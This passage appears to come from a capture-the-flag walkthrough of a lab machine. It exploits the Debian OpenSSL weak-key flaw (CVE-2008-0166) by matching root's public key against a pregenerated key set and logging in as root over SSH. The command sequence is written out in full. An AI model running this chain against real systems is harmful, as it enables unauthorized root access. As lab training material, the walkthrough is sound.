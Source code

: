 

    daemon@lame:/root/.ssh$ cat authorized_keys 
    ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== msfadmin@metasploitable



Typically having a public key doesn't do much, but two things are
interesting here:

-   Why is the user msfadmin@metasploitable?
-   Could this key be vulnerable to CVE-2008-0166, where the random
    number generator in OpenSSL broke for a period of time causing lots
    of thing, including some SSH keys, to be brute forcable from the
    public key.

I'll clone [g0tmi1k's GitHub
repo](https://github.com/g0tmi1k/debian-ssh) for this vulnerability, and
go into that directory, and unpack the common RSA keys:



    root@kali:/opt# git clone https://github.com/g0tmi1k/debian-ssh
    Cloning into 'debian-ssh'...
    remote: Enumerating objects: 35, done.
    remote: Total 35 (delta 0), reused 0 (delta 0), pack-reused 35
    Unpacking objects: 100% (35/35), 439.59 MiB | 6.72 MiB/s, done.
    root@kali:/opt# cd debian-ssh/
    root@kali:/opt/debian-ssh# ls
    common_keys  our_tools  README.md  uncommon_keys
    root@kali:/opt/debian-ssh# cd common_keys/
    root@kali:/opt/debian-ssh/common_keys# ls
    debian_ssh_dsa_1024_x86.tar.bz2  debian_ssh_rsa_2048_x86.tar.bz2
    root@kali:/opt/debian-ssh/common_keys# tar jxf debian_ssh_rsa_2048_x86.tar.bz2



Now I'll use `grep` with `-lr` for recurrsive to just display the
filename with the public key, and it finds it:



    root@kali:/opt/debian-ssh/common_keys/rsa/2048# grep -lr AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== *.pub
    57c3115d77c56390332dc5c49978627a-5429.pub



I can use the matching private key to SSH to the box as root:



    root@kali:/opt/debian-ssh/common_keys/rsa/2048# ssh -i 57c3115d77c56390332dc5c49978627a-5429 root@10.10.10.3
    Last login: Tue Apr  7 10:33:18 2020 from :0.0
    Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
